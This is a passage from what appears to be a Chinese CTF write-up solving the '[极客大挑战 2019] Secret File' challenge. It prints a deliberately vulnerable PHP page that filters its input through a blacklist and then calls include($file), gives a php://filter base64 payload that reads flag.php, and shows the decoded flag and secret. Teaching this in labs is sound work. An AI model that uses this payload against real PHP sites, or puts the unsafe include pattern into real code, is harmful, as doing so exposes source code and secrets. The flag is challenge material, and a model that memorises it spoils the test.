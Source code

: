 php://filter与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

## 0x7.[极客大挑战 2019]Secret File

有个action.php的文件，之后抓包访问，有个secr3t.php文件，访问：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
```

可以和上一题一样，php://filter

payload=?file=php://filter/read=convert.base64-encode/resource=flag.php

解码:

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{2c021ef6-68a2-4674-bf4d-ca928f144327}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
</html>

```



## 0x8.[极客大挑战 2019]LoveSQL
